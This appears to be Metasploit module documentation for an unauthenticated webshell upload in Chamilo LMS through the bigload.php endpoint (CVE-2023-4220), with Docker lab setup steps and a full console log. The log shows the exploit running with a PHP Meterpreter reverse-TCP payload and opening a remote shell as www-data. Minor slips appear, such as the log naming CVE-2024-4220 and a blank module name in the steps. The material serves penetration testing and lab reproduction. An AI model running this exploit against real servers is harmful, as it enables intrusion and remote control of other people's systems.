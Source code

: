 ## Vulnerable Application
Chamilo LMS is a free software e-learning and content management system. In versions prior to <= v1.11.24
a webshell can be uploaded via the bigload.php endpoint. If the GET request parameter `action` is set to
`post-unsupported` file extension checks are skipped allowing for attacker controlled .php files to be uploaded to:
`/main/inc/lib/javascript/bigupload/files/` if the `/files/` directory already exists - it does not exist
by default.

### Setup

A vulnerable docker-compose configuration can be found at the following link: https://github.com/vulhub/vulhub/pull/559
Clone the repo `vulhub`: `https://github.com/vulhub/vulhub.git` checkout the pull request mentioned above.
Once cloned run `cd vulhub/chamilo/CVE-2023-4220`. Then run `docker compose up`
After the contain is build navigate to `http://127.0.0.1:8080` to complete the installation wizard. 
Note when filling out the database IP address and credentials - the DB hostname is the name of the container which is 
`mariadb` (not `localhost` or `127.0.0.1`). Once the installation wizard is complete the target should be ready to be
exploited with the module. This container has the non-default `/files/` directory created already. 

## Verification Steps

1. Start msfconsole
1. Do: `use `
1. Set the `RHOST`, `RPORT`, and `LHSOT` options
1. Run the module
1. Receive a Meterpreter session as the `www-data` user.

## Scenarios
### Chamilo 1.11.18 running in Docker
```
msf6 > use linux/http/chamilo_bigupload_webshell
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/chamilo_bigupload_webshell) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 exploit(linux/http/chamilo_bigupload_webshell) > set rport 8080
rport => 8080
msf6 exploit(linux/http/chamilo_bigupload_webshell) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/chamilo_bigupload_webshell) > show options

Module options (exploit/linux/http/chamilo_bigupload_webshell):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8080             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/chamilo_bigupload_webshell) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The directory /main/inc/lib/javascript/bigupload/files/ exists on the target indicating the target is vulnerable.
[+] The target is vulnerable. File upload was successful (CVE-2024-4220 was exploited successfully).
[*] Sending stage (40004 bytes) to 172.16.199.1
[+] Deleted 1nZaWHvP
[+] Deleted kFAqQcbWxs.php
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.1:60031) at 2024-11-11 10:42:06 -0800

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : c2064983b0e1
OS          : Linux c2064983b0e1 6.10.11-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Oct  3 10:19:48 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter >
```